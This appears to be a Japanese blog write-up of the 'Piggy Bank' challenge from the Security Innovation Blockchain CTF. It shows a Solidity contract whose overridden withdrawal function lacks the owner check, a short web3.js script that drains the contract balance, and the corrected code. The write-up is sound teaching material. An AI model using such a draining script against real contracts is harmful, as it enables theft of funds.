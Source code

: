 +++
title = "Security Innovation Blockchain CTF - Piggy Bank"
date = "2022-06-04"
tags = [
    "security",
    "ctf",
]
+++

#### 概要

[Security Innovation Blockchain CTF](https://blockchain-ctf.securityinnovation.com/)

Security Innovationという企業が開催している、常設のCTFがあります。
今回は、[Piggy Bank](https://blockchain-ctf.securityinnovation.com/#/game/1)という問題を解きました。

#### 問題

貯金箱のようなアプリで、ownerのみが資金を出し入れできる実装になっています。

<img src=./dapps.png><br>

#### ソースコードを読む

`PiggyBank`というコントラクトが本体の実装になっており、`CharliesPiggyBank`はそれを継承したアプリです。

`CharliesPiggyBank`は、`collectFunds`という資金引き出し用の関数のみをoverrideしています。

`PiggyBank`には`onlyOwner`というmodifierが付いているものの、`CharliesPiggyBank`でoverrideされた関数では、modifierが付与されていません。

そのため、継承先のアプリでは`collectFunds`が誰でも呼び出し可能になっているようです。

```solidity
pragma solidity 0.4.24;

import "../CtfFramework.sol";
import "../../node_modules/openzeppelin-solidity/contracts/math/SafeMath.sol";

contract PiggyBank is CtfFramework{

    using SafeMath for uint256;

    uint256 public piggyBalance;
    string public name;
    address public owner;

    constructor(address _ctfLauncher, address _player, string _name) public payable
        CtfFramework(_ctfLauncher, _player)
    {
        name=_name;
        owner=msg.sender;
        piggyBalance=piggyBalance.add(msg.value);
    }

    function() external payable ctf{
        piggyBalance=piggyBalance.add(msg.value);
    }


    modifier onlyOwner(){
        require(msg.sender == owner, "Unauthorized: Not Owner");
        _;
    }

    function withdraw(uint256 amount) internal{
        piggyBalance = piggyBalance.sub(amount);
        msg.sender.transfer(amount);
    }

    function collectFunds(uint256 amount) public onlyOwner ctf{
        require(amount<=piggyBalance, "Insufficient Funds in Contract");
        withdraw(amount);
    }

}

contract CharliesPiggyBank is PiggyBank{

    uint256 public withdrawlCount;

    constructor(address _ctfLauncher, address _player) public payable
        PiggyBank(_ctfLauncher, _player, "Charlie") 
    {
        withdrawlCount = 0;
    }

    function collectFunds(uint256 amount) public ctf{
        require(amount<=piggyBalance, "Insufficient Funds in Contract");
        withdrawlCount = withdrawlCount.add(1);
        withdraw(amount);
    }
}
```

#### エクスプロイト

```solidity
const Web3 = require('web3')
const HDWalletProvider = require("@truffle/hdwallet-provider")
const fs = require('fs');

require('dotenv').config()

const web3 = new Web3(new HDWalletProvider(process.env.PRIVATE_KEY, process.env.PROVIDER_URL))
const abi = JSON.parse(fs.readFileSync('./src/abi.json'))
const contract = new web3.eth.Contract(abi, '0x27e03071617a155c88603ffc322262c47b209d03')
contract.methods.piggyBalance().call().then(wei => {
  const option = {from: '0xd7544D522B75347b48917649ebc5D334b3D43445'}
  contract.methods.collectFunds(wei).send(option)
})
```

#### どう実装されているべきか

modifierはoverrideされた関数には継承されないため、overrideした関数にも正しいmodifierを付与する必要があります。

```solidity
    function collectFunds(uint256 amount) public onlyOwner ctf{
        require(amount<=piggyBalance, "Insufficient Funds in Contract");
        withdrawlCount = withdrawlCount.add(1);
        withdraw(amount);
    }
```
